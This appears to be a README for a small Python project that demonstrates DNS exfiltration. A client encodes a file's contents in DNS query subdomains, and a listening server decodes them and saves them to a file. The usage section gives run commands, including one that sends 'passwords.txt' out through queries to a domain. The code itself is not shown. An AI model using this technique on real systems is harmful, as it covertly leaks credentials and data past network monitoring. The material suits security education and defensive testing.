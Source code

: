 ## DNS-Exfiltration

### Overview

This project contains two scripts: `server.py` and `client.py`. These scripts are used to demonstrate DNS exfiltration, where data is covertly sent from a client to a server using DNS queries.

### server.py

The `server.py` script sets up a DNS server that listens for DNS queries. It extracts data from the subdomain of incoming DNS queries, decodes it, and saves it to a specified file.

### client.py

The `client.py` script is used to send data to the DNS server by encoding the data in the subdomain of DNS queries. 

### Prerequisites

- Python 3.x
- dnslib
- colorama

You can install the required Python packages using pip:

### Usage

#### Running the DNS Server

1. Run the `server.py` script with the `-o` or `--output` option to specify the output file where the exfiltrated data will be saved.

```sh
python3 ./server.py -o output.txt
```

The server will start listening on port 5053 for incoming DNS queries.

#### Running the DNS Client

1. Use the `client.py` script to send data to the DNS server. This script will encode the data and send it in the subdomain of DNS queries to the server.

Here's an example of how to run the client script:

```sh
python3 ./client.py -d "google.com" -f "passwords.txt"
```

In this example, `google.com` is the domain to which the DNS queries will be sent, and `passwords` is the file containing the data to be exfiltrated.

### Note

This project is for educational purposes only. Unauthorized data exfiltration is illegal and unethical. Always obtain proper authorization before testing any security mechanism.